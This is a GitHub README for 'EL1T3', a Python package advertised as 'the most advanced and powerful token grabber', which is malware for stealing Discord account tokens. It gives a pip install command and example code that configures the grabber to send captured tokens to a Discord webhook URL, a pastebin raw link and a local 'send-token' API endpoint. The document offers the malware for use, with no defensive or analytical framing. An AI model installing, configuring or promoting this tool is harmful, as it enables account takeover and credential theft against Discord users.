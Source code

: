 <h1 align="center">🦄</h1>
<h1 align="center">THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/4cajZdYpgS">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <h1 align="center">"тнe мoѕт αdvαɴced αɴd powerғυl тoĸeɴ ɢrαввer"</h1>
  <h1 align="center">                  ιтѕ_Ѵιcнч#1337              </h1>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FAST SETUP</h1>

## 💡 | Tips:
- **Install module with**: ``pip install EL1T3``
- ``dynamic_url`` **is used for RAW link, set this parameter to ``True`` if your webhook is on a raw (pastebin etc...)**

## 👀 | Code:
```py
from EL1T3 import EL1T3

EL1T3(dynamic_url= False, webhook_url= None, api_url= None)
```

## 👀 | Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/816422104949719050/M-BU_eGHYUggYt0UhgKmU7GDUZ6L9bvSQcS08yVmeucGkWzeIYcXVcL3LMxSy5e23way", api_url= 'http://127.0.0.1:1337/send-token/')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://127.0.0.1:1337/send-token/')
```

<h1 align="center">API RELEASE SOON</h1>
